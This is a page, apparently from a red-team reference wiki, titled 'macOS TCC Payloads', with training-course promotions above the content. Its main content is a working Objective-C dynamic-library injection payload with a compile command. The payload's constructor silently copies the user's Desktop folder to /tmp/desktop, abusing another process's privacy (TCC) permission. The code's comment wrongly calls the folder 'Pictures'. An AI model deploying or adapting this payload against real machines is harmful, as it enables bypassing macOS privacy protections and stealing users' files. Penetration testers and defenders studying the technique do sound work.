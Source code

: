 # macOS TCC Payloads

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details><summary>Support Resources</summary></details>
{% endhint %}

### Desktop

* **Entitlement**: None
* **TCC**: kTCCServiceSystemPolicyDesktopFolder

{% tabs %}
{% tab title="ObjetiveC" %}
Copy `$HOME/Desktop` to `/tmp/desktop`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Desktop"];
    NSString *tmpPhotosPath = @"/tmp/desktop";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
{% endtab %}
